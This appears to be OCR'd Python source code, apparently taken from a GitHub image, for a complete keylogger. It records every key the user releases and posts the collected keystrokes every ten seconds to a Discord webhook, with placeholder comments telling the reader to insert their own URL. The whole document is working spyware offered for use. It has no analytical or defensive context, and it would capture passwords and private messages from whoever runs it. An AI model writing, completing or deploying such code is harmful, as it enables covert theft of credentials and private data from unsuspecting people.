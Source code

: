 import keyboard
import time
import requests
import threading

# Replace 'WEBHOOK_URL' with your actual Discord webhook URL
WEBHOOK_URL = 'https://discord.com/api/webhooks/your_webhook_url'

# Create a list to store the captured keystrokes
keylogs = []

# Function to send keylogs to Discord via webhook
def send_keylogs():
    global keylogs

    # Check if there are any keylogs to send
    if keylogs:
        # Convert the keylogs to a string
        keylogs_str = '\n'.join(keylogs)

        # Create the payload for the webhook
        payload = {
            'content': keylogs_str
        }

        # Send the payload to the Discord webhook
        requests.post(WEBHOOK_URL, json=payload)

        # Clear the keylogs list
        keylogs = []

    # Schedule the next execution of the function after 10 seconds
    threading.Timer(10, send_keylogs).start()

# Function to capture keystrokes
def capture_keystrokes(event):
    global keylogs

    # Append the captured keystroke to the keylogs list
    keylogs.append(event.name)

# Start capturing keystrokes
keyboard.on_release(callback=capture_keystrokes)

# Start sending keylogs to Discord every 10 seconds
send_keylogs()

# Keep the script running
while True:
    time.sleep(1)

